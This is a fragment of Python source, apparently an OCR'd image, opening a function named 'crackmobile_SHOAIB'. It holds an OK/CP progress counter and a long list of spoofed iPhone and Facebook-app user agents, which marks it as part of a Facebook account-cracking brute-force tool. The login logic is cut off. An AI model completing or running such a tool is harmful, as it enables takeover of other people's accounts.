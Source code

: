 def crackmobile_SHOAIB(idf,pwv,nmf):
	global loop,ok,cp
	bi = random.choice(['\33[m'])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r\x1b[1;90m[%s\x1b[1;33mSHOAIB-AHAMED\x1b[1;90m]-[\x1b[1;96m%s\x1b[1;90m/\x1b[1;95m%s\x1b[1;90m]-[\x1b[1;92mOK:%s\x1b[1;90m]-[\x1b[1;93mCP:%s\x1b[1;90m]-[\x1b[1;94m%s%s\x1b[1;90m]%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()
	ua = random.choice(['Mozilla/5.0 (iPhone; CPU iPhone OS 11_2_5; like Mac OS X) AppleWebKit/600.43 (KHTML, like Gecko)  Chrome/51.0.2458.138 Mobile Safari/602.3',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_7_7; like Mac OS X) AppleWebKit/601.12 (KHTML, like Gecko)  Chrome/47.0.1741.400 Mobile Safari/601.4',
'Mozilla/5.0 (iPhone; CPU iPhone OS 7_2_5; like Mac OS X) AppleWebKit/535.37 (KHTML, like Gecko)  Chrome/55.0.1438.376 Mobile Safari/603.0',
'Mozilla/5.0 (iPhone; CPU iPhone OS 9_6_8; like Mac OS X) AppleWebKit/601.9 (KHTML, like Gecko)  Chrome/52.0.2927.225 Mobile Safari/535.9',
'Mozilla/5.0 (iPhone; CPU iPhone OS 8_2_3; like Mac OS X) AppleWebKit/534.44 (KHTML, like Gecko)  Chrome/51.0.2055.387 Mobile Safari/602.9',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_5_7; like Mac OS X) AppleWebKit/602.34 (KHTML, like Gecko)  Chrome/54.0.1280.327 Mobile Safari/601.2',
'Mozilla/5.0 (iPhone; CPU iPhone OS 10_4_9; like Mac OS X) AppleWebKit/534.26 (KHTML, like Gecko)  Chrome/49.0.1455.201 Mobile Safari/603.9',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_5_0; like Mac OS X) AppleWebKit/537.3 (KHTML, like Gecko)  Chrome/52.0.2335.107 Mobile Safari/603.5',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_6_7; like Mac OS X) AppleWebKit/600.40 (KHTML, like Gecko)  Chrome/48.0.1600.178 Mobile Safari/602.4',
'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0_8; like Mac OS X) AppleWebKit/533.49 (KHTML, like Gecko)  Chrome/51.0.1116.123 Mobile Safari/600.0',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/96.0.4664.53 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.4 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A372 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.0 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.0 Mobile/15E148 Safari/604.1 OPX/1.5.2',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/20A5339d [FBAN/FBIOS;FBDV/iPhone10,6;FBMD/iPhone;FBSN/iOS;FBSV/16.0;FBSS/3;FBID/phone;FBLC/vi_VN;FBOP/5]',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/20A5312j [FBAN/FBIOS;FBDV/iPhone13,1;FBMD/iPhone;FBSN/iOS;FBSV/16.0;FBSS/3;FBID/phone;FBLC/cs_CZ;FBOP/5]',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/20A5312g [FBAN/FBIOS;FBDV/iPhone13,1;FBMD/iPhone;FBSN/iOS;FBSV/16.0;FBSS/3;FBID/phone;FBLC/cs_CZ;FBOP/5]',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 YaBrowser/22.7.6.401.10 YaApp_iOS/2207.6 YaApp_iOS_Browser/2207.6 Safari/604.1 SA/3',
'Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) GSA/218.0.456502374 Mobile/15E148 Safari/604.1',
'Mozilla/5.0 (iPad; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 Version/15.0 Safari/605.1.15',
'Mozilla/5.0 (iPad; CPU iPhone OS 15_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 Version/15.1 Safari/605.1.15',
'Mozilla/5.0 (iPhone14,3; U; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Mobile/19A346 Safari/602.1',
'Mozilla/5.0 (iPhone14,6; U; CPU iPhone OS 15_4 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Mobile/19E241 Safari/602.1',
'Mozilla/5.0 (iPhone; CPU iPhone OS 13_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/76.0.3809.123 Mobile/15E148 Safari/605.1',